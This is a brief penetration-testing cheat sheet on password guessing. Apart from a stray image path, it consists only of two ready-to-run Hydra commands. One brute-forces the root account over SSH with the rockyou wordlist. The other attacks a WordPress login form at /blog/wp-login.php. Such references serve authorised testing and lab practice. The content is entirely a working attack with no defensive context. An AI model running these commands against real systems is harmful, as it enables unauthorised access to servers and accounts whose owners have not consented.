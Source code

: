 # Cheatsheet - Password Guessing
## Hydra
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET -t4 ssh

hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET http-post-form "/blog/wp-login.php?:log=^USER^&pwd=^PASS^:Error"
```

